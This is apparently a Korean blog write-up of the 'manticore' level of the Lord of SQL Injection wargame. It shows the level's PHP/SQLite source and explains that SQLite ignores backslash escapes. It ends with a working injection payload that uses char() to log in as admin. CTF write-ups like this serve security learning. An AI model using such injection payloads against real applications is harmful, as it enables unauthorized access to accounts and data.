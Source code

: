 ```yaml
---
title : "LOS Lv.38 manticore (풀이 봄)"
excerpt : "LOS Lv.38 manticore (풀이 봄)"
toc: true
toc_sticky: true
categories :
  - rubiya
---
```


## manticore
```php
query : select id from member where id='' and pw=''

<?php
  include "./config.php";
  login_chk();
  $db = sqlite_open("./db/manticore.db");
  $_GET['id'] = addslashes($_GET['id']);
  $_GET['pw'] = addslashes($_GET['pw']);
  $query = "select id from member where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = sqlite_fetch_array(sqlite_query($db,$query));
  if($result['id'] == "admin") solve("manticore");
  highlight_file(__FILE__);
?>
```

## Solution
```
%a1~%fe -> 안됨!
```
풀이 봄.  
<a href="https://blog.limelee.xyz/entry/LOS-manticore?category=711778" target="_blank">https://blog.limelee.xyz/entry/LOS-manticore?category=711778</a>

```
sqlite는 '\'을 통해 escape string을 처리하지 않음.

-> id='\\' 이렇게 하면 db에는 id 값에 그냥 '\\'이 들어감!
-> sqlite에서는 single quote를 두 개를 써서 escape 처리함.
```

<a href="http://www.devkuma.com/books/pages/1273" target="_blank">http://www.devkuma.com/books/pages/1273</a>

```
따라서 그냥 id='\'' 이렇게 된다면 escape 처리가 되지 않는다는 것이므로

그냥 ?id=' or id=0x61646D696E --%20이라고 하면?

id='\' or id=0x61646D696E -- ' -> 실패함
```
```
이유는 "hexadecimal integer literals are not considered well-formed and are stored as TEXT."

-> 16진수 정수 리터럴은 올바른 형식으로 구성되지 않은 것으로 간주되어 TEXT로 저장됨.

따라서 hex 값을 넣어도 mysql처럼 바뀌지 않고 TEXT로 들어가서 검색이 안된 것임.

single quote를 못쓰므로 char 함수를 이용해서 값을 넣으면 됨. 
```
sqlite online : <a href="https://sqliteonline.com/" target="_blank">https://sqliteonline.com/</a>
```
?id=' or id=char(97,100,109,105,110) --%20
```